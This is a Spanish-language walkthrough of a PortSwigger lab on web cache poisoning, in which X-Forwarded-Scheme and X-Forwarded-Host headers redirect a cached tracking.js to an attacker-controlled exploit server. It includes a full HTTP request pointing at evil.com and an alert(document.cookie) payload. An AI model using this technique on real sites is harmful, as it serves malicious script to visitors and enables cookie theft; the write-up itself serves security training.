









# Web cache poisoning with multiple headers



## LAB

En nuestra solicitud podemos observar que el servidor manera la cache.



Por lo que haciendo uso de la extensión "Param Miner" encontramos un parametro



Encontramos un encabezado:

```c
 x-forwarded-scheme 
```

Este encabezado es usado para especificar el esquema que utiliza el cliente para realizar la solicitud, como “HTTP” o “HTTPS”.



Al ingresar el encabezado ` x-forwarded-scheme ` observamos que este redirige a Host, pero podemos probar a insertar nuestro host a que queremos que redirige con el encabezado `X-Forwarded-Host`

```c
X-Forwarded-Host: evil.com
```



Al insertar ambos encabezados podemos observar que este es redirigido a nuestro sitio web malicioso.

```c
GET / HTTP/2
Host: 0a16008503d08a908072031d000d005f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Priority: u=0, i
Te: trailers
X-Forwarded-Scheme: http
X-Forwarded-Host: evil.com
```

Ahora, teniendo un vector de ataque podemos usar nuestro exploit server para que la victima ejecute un js malicioso

```c
alert(document.cookie)
```



Si bien podemos redirigir a un usuario a nuestro sitio web malicioso, lo que haremos será cambiar un recurso que es `tracking.js`

```c
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0a40001803678af780f8026501f10003.exploit-server.net
```



Por lo que cuando una victima recargue el sitio web, y llame al javascript `tracking.js`, este realmente no estará llamando al del sitio web sino al de nosotros el que se encuentra alojado en nuestro exploit server.



Y de esta manera podemos hacer que el usuario ejecute el javascript malicioso.



